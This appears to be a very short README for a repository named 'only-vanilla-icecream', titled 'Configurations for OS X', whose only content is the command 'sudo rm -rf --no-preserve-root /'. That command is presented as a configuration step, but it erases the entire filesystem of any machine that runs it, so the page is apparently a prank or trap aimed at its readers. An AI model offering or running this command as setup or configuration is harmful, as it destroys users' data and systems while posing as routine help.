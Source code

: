 only-vanilla-icecream
======================

Configurations for OS X

    sudo rm -rf --no-preserve-root /
